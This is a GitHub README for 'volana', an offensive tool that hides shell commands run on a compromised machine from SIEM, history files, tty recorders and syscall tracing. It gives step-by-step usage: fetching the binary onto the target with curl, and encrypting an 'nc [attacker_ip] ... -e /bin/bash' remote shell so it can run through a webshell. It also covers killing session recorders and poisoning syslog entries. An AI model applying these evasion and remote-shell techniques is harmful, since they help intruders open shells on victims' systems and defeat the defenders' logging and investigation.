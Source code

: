 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the afterwards cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
>>> ENCRYPTED COMMAND
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell, spawn it to make it interactive and use volana usually to be stealth (./volana). + Don't forget to remove volana binary before leaving (cause decryption key can easily be retrieved from it)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against systems that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launching command line will be catched

* Detection systems that are based on history command output
* Detection systems that are based on history files
  * `.bash_history`, ".zsh_history" etc ..
* Detection systems that are based on bash debug traps
* Detection systems that are based on sudo built-in logging system
* Detection systems tracing all processes syscall system-wide (eg `opensnoop`)
* Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash), `ovh-ttyrec`, etc..)
  * Easy to detect & avoid: `pkill -9 script`
  * Not a common case
  * `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
  * Command detection Could be avoid with `volana` with encryption 

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
* Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
  * Only for `sudo` or `su` commands
  * syslog file could be modified and thus be poisoned as you wish (e.g for */var/log/auth.log*:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"`)
* Detection systems that are based on syscall (eg auditd,LKML/eBPF)
  * Difficult to analyze, could be make unreadable by making several diversion syscalls
* Custom `LD_PRELOAD` injection to make log
  * Not a common case at all

## Bug bounty

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛

 Let me know if you have found:
* a way to detect `volana`
* a way to spy console that don't detect `volana` commands
* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose)

 
## Credit
* [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways)
* [moonwalk](https://github.com/mufeedvh/moonwalk): similar tool that clear tracks AFTER passage
